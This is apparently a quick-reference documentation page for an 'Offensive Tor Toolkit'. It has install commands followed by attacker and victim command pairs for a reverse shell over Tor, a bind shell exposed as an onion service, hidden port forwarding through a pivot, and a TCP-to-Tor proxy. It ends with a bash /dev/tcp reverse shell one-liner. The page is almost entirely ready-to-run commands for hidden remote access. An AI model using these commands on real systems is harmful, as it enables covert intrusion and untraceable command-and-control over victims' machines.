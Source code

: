 ```yaml
---
description: Too Long; Didn't Read
---
```


# TL;DR

## Download Offensive Tor Toolkit

```text
export VERSION=$(
    curl -s "https://api.github.com/repos/atorrescogollo/offensive-tor-toolkit/releases" \
     | jq -r '.[].name | select(. | test("v[0-9]+\\."))' \
     | sort -rV | head -1
)

# Download the release
wget https://github.com/atorrescogollo/offensive-tor-toolkit/releases/download/${VERSION}/offensive-tor-toolkit-${VERSION}.tar.gz

# Uncompress
tar -xvzf offensive-tor-toolkit-${VERSION}.tar.gz

# Move to /opt/offensive-tor-toolkit/
sudo mv offensive-tor-toolkit-${VERSION}* /opt
sudo ln -sf offensive-tor-toolkit-${VERSION} /opt/offensive-tor-toolkit
cd /opt/offensive-tor-toolkit
```

## Reverse Shell over Tor

**Attacker**

```text
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```

**Victim**

```text
$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```

## Bind Shell over Tor

**Victim**

```text
$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi...g6yew.onion:1234
```

**Attacker**

```text
$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
$ nctor -v hgnzi...g6yew.onion 1234
```

## Hidden Port Forwarding

**Victim/Pivot**

```text
$ ./hidden-portforwarding -data-dir /tmp/pf-datadir -forward 127.0.0.1:1111 -hidden-port 9001
...
Forwarding xa7l...a4el.onion:9001 -> 127.0.0.1:8080
```

**Attacker**

```text
$ alias curltor="curl --socks5-hostname 127.0.0.1:9050"
$ curltor http://xa7l...a4el.onion:9001/
```

## TCP2Tor Proxy

**Attacker**

```text
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```

**Pivot**

```text
$ ./tcp2tor-proxy -listen 0.0.0.0:60101 -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

**Victim**

```text
$ bash -i >& /dev/tcp/<PIVOT_IP>/60101 0>&1
```

